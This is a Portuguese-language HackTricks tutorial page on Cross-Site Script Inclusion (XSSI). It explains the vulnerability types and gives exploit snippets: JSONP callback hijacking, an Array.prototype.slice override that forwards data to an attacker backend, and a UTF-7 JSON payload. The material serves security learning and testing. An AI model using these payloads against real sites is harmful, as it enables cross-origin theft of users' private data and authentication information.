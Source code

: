 # XSSI (Inclusão de Script de Sites Cruzados)

<details>

<summary><strong>Aprenda hacking na AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>


## Informações Básicas

**Inclusão de Script de Sites Cruzados (XSSI)** é uma vulnerabilidade que surge da natureza da tag `script` em HTML. Ao contrário da maioria dos recursos, que estão sujeitos à **Política de Mesma Origem (SOP)**, scripts podem ser incluídos de diferentes domínios. Esse comportamento é destinado a facilitar o uso de bibliotecas e outros recursos hospedados em servidores diferentes, mas também introduz um risco de segurança potencial.

### Principais Características do **XSSI**:
- **Burla da SOP**: Scripts estão isentos da **Política de Mesma Origem**, permitindo que sejam incluídos em diferentes domínios.
- **Exposição de Dados**: Um atacante pode explorar esse comportamento para ler dados carregados via a tag `script`.
- **Impacto no JavaScript Dinâmico/JSONP**: **XSSI** é particularmente relevante para JavaScript dinâmico ou **JSON com Preenchimento (JSONP)**. Essas tecnologias frequentemente usam informações de "autoridade-ambiente" (como cookies) para autenticação. Quando uma solicitação de script é feita para um host diferente, essas credenciais (por exemplo, cookies) são automaticamente incluídas na solicitação.
- **Vazamento de Token de Autenticação**: Se um atacante puder enganar o navegador de um usuário para solicitar um script de um servidor que controlam, eles podem acessar informações sensíveis contidas nessas solicitações.

### Tipos

1. **JavaScript Estático** - Representa a forma convencional de XSSI.
2. **JavaScript Estático com Autenticação** - Esse tipo é distinto porque requer autenticação para acessar.
3. **JavaScript Dinâmico** - Envolve JavaScript que gera conteúdo dinamicamente.
4. **Não-JavaScript** - Refere-se a vulnerabilidades que não envolvem JavaScript diretamente.

**As informações a seguir são um resumo de [https://www.scip.ch/en/?labs.20160414](https://www.scip.ch/en/?labs.20160414)**. Consulte para mais detalhes.


### XSSI Regular
Neste método, informações privadas são incorporadas em um arquivo JavaScript globalmente acessível. Os atacantes podem identificar esses arquivos usando métodos como leitura de arquivos, pesquisas de palavras-chave ou expressões regulares. Uma vez localizado, o script contendo informações privadas pode ser incluído em conteúdo malicioso, permitindo acesso não autorizado a dados sensíveis. Uma técnica de exploração de exemplo é mostrada abaixo:
```html
<script src="https://www.vulnerable-domain.tld/script.js"></script>
<script> alert(JSON.stringify(confidential_keys[0])); </script>
```
### XSSI baseado em JavaScript dinâmico e XSSI baseado em JavaScript autenticado
Esses tipos de ataques XSSI envolvem informações confidenciais sendo adicionadas dinamicamente ao script em resposta a uma solicitação do usuário. A detecção pode ser realizada enviando solicitações com e sem cookies e comparando as respostas. Se as informações diferirem, isso pode indicar a presença de informações confidenciais. Esse processo pode ser automatizado usando ferramentas como a extensão Burp [DetectDynamicJS](https://github.com/luh2/DetectDynamicJS).

Se os dados confidenciais estiverem armazenados em uma variável global, eles podem ser explorados usando métodos semelhantes aos usados no XSSI Regular. No entanto, se os dados confidenciais estiverem incluídos em uma resposta JSONP, os atacantes podem sequestrar a função de retorno de chamada para recuperar as informações. Isso pode ser feito manipulando objetos globais ou configurando uma função para ser executada pela resposta JSONP, conforme demonstrado abaixo:
```html
<script>
var angular = function () { return 1; };
angular.callbacks = function () { return 1; };
angular.callbacks._7 = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=angular.callbacks._7" type="text/javascript"></script>
```

```html
<script>
leak = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=leak" type="text/javascript"></script>
```
Para variáveis que não residem no namespace global, *manipulação de protótipo* às vezes pode ser explorada. Essa técnica aproveita o design do JavaScript, onde a interpretação do código envolve percorrer a cadeia de protótipos para localizar a propriedade chamada. Ao substituir certas funções, como `slice` do `Array`, os atacantes podem acessar e vazar variáveis não globais:
```javascript
Array.prototype.slice = function(){
// leaks ["secret1", "secret2", "secret3"]
sendToAttackerBackend(this);
};
```
Mais detalhes sobre vetores de ataque podem ser encontrados no trabalho do Pesquisador de Segurança [Sebastian Lekies](https://twitter.com/slekies), que mantém uma lista de [vetores](http://sebastian-lekies.de/leak/).

### Non-Script-XSSI
A pesquisa de Takeshi Terada introduz outra forma de XSSI, onde arquivos Non-Script, como CSV, são vazados entre origens ao serem incluídos como fontes em uma tag `script`. Instâncias históricas de XSSI, como o ataque de 2006 de Jeremiah Grossman para ler um catálogo de endereços completo do Google e o vazamento de dados JSON de 2007 de Joe Walker, destacam a gravidade dessas ameaças. Além disso, Gareth Heyes descreve uma variante de ataque envolvendo JSON codificado em UTF-7 para escapar do formato JSON e executar scripts, eficaz em certos navegadores:
```javascript
[{'friend':'luke','email':'+ACcAfQBdADsAYQBsAGUAcgB0ACgAJwBNAGEAeQAgAHQAaABlACAAZgBvAHIAYwBlACAAYgBlACAAdwBpAHQAaAAgAHkAbwB1ACcAKQA7AFsAewAnAGoAbwBiACcAOgAnAGQAbwBuAGU-'}]
```

```html
<script src="http://site.tld/json-utf7.json" type="text/javascript" charset="UTF-7"></script>
```
<details>

<summary><strong>Aprenda hacking AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
